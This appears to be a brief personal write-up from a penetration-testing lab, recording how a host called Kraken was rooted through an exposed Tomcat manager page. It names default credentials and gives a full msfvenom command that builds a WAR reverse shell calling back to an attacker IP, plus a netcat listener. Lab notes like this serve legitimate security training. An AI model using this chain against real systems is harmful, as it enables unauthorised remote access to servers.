

10.11.1.209 Kraken rooted
nmap showed that 8080 was running apache tomcat.
Nikto showed me that /manager/html was useing the default login tomcat:s3cret
navigated there and logged in!
The tomcat web application manager allows you to upload .war file (compressed java)
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.119.167 LPORT=443 -f war > 443.war
nc listener
clicked on the file I just uploaded...
rooted!
657dd1ac919a586169dd8bf519d3429f